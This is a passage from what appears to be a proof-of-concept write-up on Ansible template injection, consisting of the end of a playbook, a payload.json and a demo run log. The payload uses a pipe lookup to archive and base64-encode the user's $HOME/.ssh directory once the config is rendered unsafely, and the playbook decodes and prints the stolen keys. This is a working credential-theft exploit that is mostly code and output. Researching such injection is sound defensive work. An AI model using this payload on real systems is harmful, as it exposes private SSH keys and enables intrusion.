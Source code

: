     - name: Write the unsafe config
      copy:
        content: "{{ combined_payloads_unsafe | to_json }}"
        dest: /tmp/output_unsafe.json

    # Display the output of the attack
    - name: Install the package "jq"
      apt:
        name: jq

    - name: Read the result of the payload
      shell: jq .ssh_keys /tmp/output_unsafe.json -r | base64 -d | tar -xzO
      register: payload_results

    - name: Output the payload results
      debug:
        msg: "{{payload_results.stdout}}"
{{< / highlight >}}

## payload.json

```json
{
    "ssh_keys":"{{ lookup(\"pipe\", \"tar -czf - $HOME/.ssh/ 2>/dev/null | base64 -w0 \") }}"
}
```
## Demo

```bash
$ ansible-playbook poc.yml

PLAY [Template injection example] **********************************************

TASK [Gathering Facts] *********************************************************
ok: [localhost]

TASK [Prepare the host by setting it up with the payload] **********************
ok: [localhost]

TASK [Read the payload from the remote server] *********************************
ok: [localhost]

TASK [Add an element to the payload file safely] *******************************
ok: [localhost]

TASK [Write the safe config] ***************************************************
changed: [localhost]

TASK [Combine and write the config safely] *************************************
changed: [localhost]

TASK [Add an element to the payload file unsafely] *****************************
ok: [localhost]

TASK [Write the unsafe config] *************************************************
changed: [localhost]

TASK [Install the package "jq"] ************************************************
ok: [localhost]

TASK [Read the result of the payload] ******************************************
changed: [localhost]

```